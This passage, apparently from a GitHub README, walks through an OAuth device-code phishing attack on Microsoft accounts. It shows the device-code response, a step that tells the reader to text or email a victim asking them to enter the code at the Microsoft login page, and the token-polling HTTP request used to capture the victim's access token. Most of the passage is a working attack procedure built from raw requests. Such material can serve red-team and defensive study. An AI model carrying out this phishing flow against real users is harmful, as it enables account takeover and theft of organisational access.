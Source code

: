 ```
Connection: close
Content-Length: 473

{
    "user_code":"E2XZV7VLV",
    "device_code":"[REDACTED]",
    "verification_uri":"https://microsoft.com/devicelogin",
    "expires_in":900,
    "interval":5,
    "message":"To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code E2XZV7VLV to authenticate."
}
```

### Step 2: Phishing the User

Using the data returned by Microsoft in [Step 1](#step-1-requesting-the-device-code), send a text/email to the user requesting them to navigate to `https://microsoft.com/devicelogin` and enter the user code value.

This is also noted in the `message` value in the response from Step 1:

```
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code E2XZV7VLV to authenticate.
```

### Step 3: Polling Microsoft for User Authentication

Based on the `interval` value returned by Microsoft in [Step 1](#step-1-requesting-the-device-code), poll `login.microsoftonline.com/<tenant>/oauth2/v2.0/token` to identify if the user has authenticated yet (where tenant is `organizations` for the use-case of a work email).

#### Request
The request consists of three HTTP POST parameters:
* `client_id`: The client ID of the target public OAuth application.
* `code`: The device code retrieved from Microsoft during Step 1.
* `grant_type`: This is a static value - `urn:ietf:params:oauth:grant-type:device_code`.

```
POST /organizations/oauth2/v2.0/token HTTP/1.1
Host: login.microsoftonline.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Connection: close
DNT: 1
Upgrade-Insecure-Requests: 1
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 325

grant_type=urn%3Aietf%3Aparams%3Aoauth%3Agrant-type%3Adevice_code&code=[REDACTED]&client_id=<client_id>
```
